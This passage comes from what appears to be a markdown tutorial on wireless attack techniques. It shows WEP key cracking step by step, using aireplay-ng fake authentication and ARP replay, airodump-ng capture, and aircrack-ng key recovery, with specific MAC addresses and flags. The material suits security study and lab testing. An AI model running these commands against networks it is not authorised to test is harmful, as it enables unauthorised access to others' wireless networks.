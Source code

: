 ![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image018.png)<br><br>

No perform a fake authentication with `--fakeauth` and then begin transmitting ARP packets with `aireplay-ng --arpreplay -b 14:D6:4D:26:81:04 -h 00:C0:CA:97:2B:52 wlan0mon`:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image015.png)<br><br>


Capture all of the responses using `airodump-ng wlan0mon -c 6 --bssid 14:D6:4D:26:81:04 -w replay`:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image016.png)<br><br>


### Key Attacks with aircrack-ng

Once enough packets with unique IVs have been captured, you can use `aircrack-ng` to identify the encryption key used on the network with `aircrack-ng replay-01.cap`.  It will run until it decrypts the WEP key:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image017.png)<br><br>
